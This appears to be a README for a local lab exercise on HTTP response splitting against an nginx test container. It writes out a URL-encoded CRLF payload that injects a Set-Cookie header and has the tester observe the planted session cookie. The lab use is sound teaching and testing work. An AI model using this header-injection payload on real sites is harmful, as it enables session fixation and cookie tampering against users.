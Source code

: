 # Instructions for HTTP Response Splitting testing

1. Start nginx container
    - See instructions: TODO
2. Make GET requests to following paths
   - You can use incognito window to have a clean start 
   ```
   # This is a path without payload
   $ http://whaleback.test.local:90/valaat/whales/1
   
   # This path contains a payload part
   $ http://catback.test.mau:91/valaat/cats/2%0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   
   # The payload: %0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   # %0d%0a = URL encoded "\r\n" (CRLF)
   # Set-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F = URL encoded "Set-Cookie:sessiontoken=123ABC;path=/" 
   
   # The payload sets a cookie "sessiontoken" with value "123ABC" and sets the path for that cookie to be "/" 
   ```
3. Observe the results
   - Check the cookies before running the first GET request
   - See what kind of requests the browser makes
   - Check what headers the responses of the requests have
   - Check the cookies after the GET request with payload has been sent
4. Make a new GET request to a different path like following and observe the results: 
   ```
   # Use this path
   $ http://whaleback.test.local:90/echorequest
   ```
   - Notice that the request has the cookie set which we set with the request with the payload









































































